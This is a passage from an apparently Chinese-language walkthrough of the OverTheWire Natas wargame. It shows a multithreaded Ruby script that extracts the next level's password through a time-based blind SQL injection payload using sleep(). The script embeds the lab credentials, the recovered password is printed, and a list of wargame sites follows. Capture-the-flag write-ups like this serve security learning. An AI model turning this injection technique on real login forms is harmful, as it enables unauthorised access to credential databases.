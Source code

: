```ruby
        req.basic_auth 'natas17', '8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw'
        req.body = %{username=natas18" and if(#{m} < ascii(mid(password,#{pos+1},1)), sleep(#{timeout}), 1) #}
        begin
          http.request(req)
        rescue Net::ReadTimeout
          l = m + 1
        else
          h = m
        end
      end
      ans[pos] = l.chr
    }
  }
}
16.times.map {|i| Thread.new { worker[i*2, i*2+2] } }.each &:join
puts ans
```

得到密碼：`xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP`。

## 其他wargames資源

- [http://smashthestack.org/wargames]()
- [http://ipwned.it/challenge.php]()
- [http://exploit-exercises.com/]()
- [http://www.hellboundhackers.org/]()
- [http://hax.tor.hu/]()
